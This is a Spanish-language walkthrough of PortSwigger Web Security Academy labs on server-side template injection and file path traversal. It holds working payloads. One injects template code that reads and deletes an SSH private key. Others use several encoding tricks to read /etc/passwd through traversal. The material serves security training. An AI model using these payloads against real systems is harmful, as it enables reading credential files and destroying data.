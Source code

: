 ### [Server-side template injection with a custom exploit](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-with-a-custom-exploit)

#### Solución:

1. Iniciar sesión con las credenciales brindadas (wiener:peter), ir a My account y modificar el nombre que se muestra en los comentarios de los post
2. Modificar y enviar dicha request seteando blog-post-author-display=user.setAvatar('/home/carlos/.ssh/id_rsa','image/jpg')
3. Realizar un comentario en cualqueir post y volver a dicho post para visualizar el comentario, ejecutando así el template injection y cargando como avatar el archivo a eliminar
4. Modificar y enviar la request del paso 2 seteando blog-post-author-display=user.gdprDelete()
5. Actualizar la página del post, ejecutando nuevamente el template injection y eliminando así el avatar (es decir, el archivo objetivo)

## [Directory traversal](https://portswigger.net/web-security/file-path-traversal)

### [File path traversal, simple case](https://portswigger.net/web-security/file-path-traversal/lab-simple)

#### Solución:

Hacer una request a https://LABID.web-security-academy.net/image?filename=../../../etc/passwd

### [File path traversal, traversal sequences blocked with absolute path bypass](https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass)

#### Solución:

Hacer una request a https://LABID.web-security-academy.net/image?filename=/etc/passwd

### [File path traversal, traversal sequences stripped non-recursively](https://portswigger.net/web-security/file-path-traversal/lab-sequences-stripped-non-recursively)

#### Solución:

Hacer una request a https://LABID.web-security-academy.net/image?filename=....//....//....//etc/passwd

### [File path traversal, traversal sequences stripped with superfluous URL-decode](https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode)

#### Solución:

Hacer una request a https://LABID.web-security-academy.net/image?filename=..%252f..%252f..%252fetc/passwd
